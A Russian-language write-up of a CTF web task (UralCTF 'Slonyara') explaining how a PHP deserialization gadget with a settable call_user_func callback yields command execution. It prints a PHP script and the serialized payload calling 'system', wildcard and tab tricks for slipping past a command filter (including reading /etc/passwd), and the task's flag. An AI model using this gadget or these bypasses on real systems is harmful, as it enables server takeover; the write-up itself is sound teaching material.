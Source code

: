 # Slonyara | easy | web

## Информация

> Решил выгулять старого доброго слоняру, погляди что из этого вышло.
> http://5.1.53.43:5059

## Описание

Таск на PHP-десериализацию + обходом фильтров на OS command injection. Предполагаемое решение - использование функций PHP для исполнения
произвольного кода на сервере с последующим обходом самописного WAF

## Решение

1. Изначально был дан скрин с классом ExtraArray, в котором переопределяется метод offsetGet
от родительского класса ArrayObject. Если погуглить, то можно прочитать, что данный метод вызывается всякий раз,
когда идет обращение к элементу по его индексу. Также внутри данного метода можно заметить переменную
$help, на которую нет ссылок и которая нигде не вызывается. Тем не менее, она инициализируется значением
выполнения функции `call_user_func`, где к элементу массива $value применяется функция $callback, которая
является одним из полей нашего класса ExtraArray.

2. По логике автора, эксплуатация данной уязвимости должна была производиться через PHP-функции типа system, exec,
shell_exec и прочими (о чем, кстати, был дан хинт), которые дадут возможность выполнения произвольного кода
на сервере и, как следствие, чтения флага. Но были и нюансы - например, большинство системных команд linux
были в бане, о чем могла свидетельствовать надпись `Not so easy, my honey :)`. Помимо этого, было запрещено
использование пробелов, а также было условие на обязательное наличие символов типа `*` или `?` в готовом эксплойте.
По логике автора таска, при гуглинге возможностей обхода фильтров участники так или иначе должны были прочитать
о возможности использования символов подстановки для выполнения linux-команд. Например, прочитать файл
`/etc/passwd` командой `cat` можно так:
```
ca? /etc/passwd
```
Но и тут есть нюанс. Для того, чтобы символы подстановки корректно работали внутри PHP функций типа system, exec
и прочих, нужно указывать полный путь до исполняемого файла. Как правило, исполняемые файлы в linux лежат в
`/usr/bin/`, поэтому внутри эксплойта нужно было указывать команды формата
```
/usr/bin/ca? /etc/passwd
```

3. Название флага имело формат `{random_symbols}flag.txt`, флаг лежал в директории веб-сервера.

4. Итак, пишем PHP-код для эксплойта (будет сразу рабочий вариант):
```php
<?php
use ArrayObject;

class ExtraArray extends ArrayObject
{
    public $callback;

    #[\ReturnTypeWillChange] // не обязательно
    public function offsetGet($index)
    {
        $value = parent::offsetGet($index);
        $help = call_user_func($this->callback, $value);
        return $value;
    }
}

$array = new ExtraArray(['/usr/bin/ca?	*flag.txt']);

$array->callback = 'system';

$serialized = serialize($array);
echo $serialized;

```

5. Ну и сам эксплойт:
```
O:10:"ExtraArray":4:{i:0;i:0;i:1;a:1:{i:0;s:22:"/usr/bin/ca?	*flag.txt";}i:2;a:1:{s:8:"callback";s:6:"system";}i:3;N;}
```

6. P.S. Для листинга содержимого текущей директории можно было использовать команду `/usr/bin/ech?	*`

## Флаг

`UralCTF{php_d3ser1alizat10n_wi7h_s0m3_f6n}`

